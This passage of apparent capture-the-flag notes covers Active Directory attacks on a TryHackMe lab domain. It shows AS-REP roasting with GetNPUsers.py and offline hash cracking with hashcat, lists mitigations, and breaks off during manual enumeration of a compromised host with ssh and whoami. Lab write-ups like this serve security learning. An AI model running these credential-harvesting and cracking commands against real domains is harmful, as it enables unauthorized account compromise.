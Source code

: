 ```C
GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

Output:

![Pasted image 20250525080934.png|center](/img/user/cards/active-directory/images/Pasted%20image%2020250525080934.png)


2. Capture and crack the retrieved AS-REP hashes offline. 


**hashcat**

```C
hashcat -m 18200 hashes.txt wordlist.txt
```

- `-m 18200`: Specifies the AS-REP Kerberos hash cracking mode.
- `hashes.txt`: Contains collected hashes from vulnerable accounts.
- `wordlist.txt`: Your chosen dictionary of possible passwords.


![Pasted image 20250525081335.png](/img/user/cards/active-directory/images/Pasted%20image%2020250525081335.png)
#### Mitigations

- Enforce Kerberos pre-authentication for all user accounts
- Strong, complex passwords slow down offline cracking
- Monitor anomalous AS-REP requests on the KDC
## Manual Enumeration
---
This requires a Windows machine using CMD and Powershell commands. This will include exploring token privileges, identifying domain and local users (including service accounts), analyzing logged-in sessions, and collecting valuable data from environment variables and the Windows Registry.


This assumes a compromised Windows machine either with/without Graphical User Interface (GUI) but first we must know our environment: including knowing our user, host name machine, and more.

In our case, we already have a valid account - we can now logon to the account using either ssh (if available) or remote desktop protocol.

```C
ssh asrepuser1@10.211.12.20
```

`whoami`

![Pasted image 20250525081919.png](/img/user/cards/active-directory/images/Pasted%20image%2020250525081919.png)

`whoami /all`

Reveals account's Security Identifier (SID), group memberships, and account privileges.

![Pasted image 20250525082045.png](/img/user/cards/active-directory/images/Pasted%20image%2020250525082045.png)

Most interesting privileges:
